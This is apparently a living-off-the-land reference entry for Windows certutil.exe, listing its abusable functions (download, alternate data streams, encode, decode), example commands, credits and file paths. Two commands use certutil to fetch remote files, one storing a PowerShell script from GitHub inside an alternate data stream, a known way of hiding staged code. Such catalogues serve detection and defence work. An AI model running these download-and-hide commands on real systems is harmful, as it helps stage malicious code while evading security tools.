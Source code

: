 ## Certutil.exe

* Functions: Download, Add ADS, Decode, Encode

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe    
    
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt    
    
certutil -encode inputFileName encodedOutputFileName   
    
certutil -decode encodedInputFileName decodedOutputFileName
```

Acknowledgements:
* Matt Graeber - @mattifestation
* Moriarty - @Moriarty2016

Code sample:
* 

Resources:
* https://twitter.com/Moriarty_Meng/status/984380793383370752
* https://twitter.com/mattifestation/status/620107926288515072

Full path:
```
c:\windows\system32\certutil.exe
c:\windows\sysWOW64\certutil.exe
```

Notes:



 
